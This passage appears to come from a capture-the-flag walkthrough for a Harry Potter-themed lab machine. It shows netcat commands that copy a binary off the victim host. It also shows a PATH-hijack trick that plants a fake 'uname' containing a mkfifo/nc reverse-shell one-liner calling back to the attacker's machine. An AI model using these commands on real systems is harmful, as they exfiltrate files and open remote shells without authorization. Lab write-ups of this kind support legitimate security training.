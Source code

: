 ### Transfer File

**Kali**

```
nc -l -p 1234 > swagger
```

**Victim(Hermonie)**

```
nc -w 3 $KALI 1234 < /srv/time-turner/swagger
```



### Ghidra

**Kali**

```
ghidra
```

<figure><img src="../../../.gitbook/assets/image (31) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(Hermonie)**

```
touch /tmp/uname
chmod +x /tmp/uname
export PATH=/tmp:$PATH
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 1337 >/tmp/f" > /tmp/uname
```

We know need to figure a way to get to the impressive function. It turns out the random number generator isn't so random, if you keep running it quicky it uses the same number so we can see the answer into quickly enough we'll get to the function.

**Victim(Hermonie)**
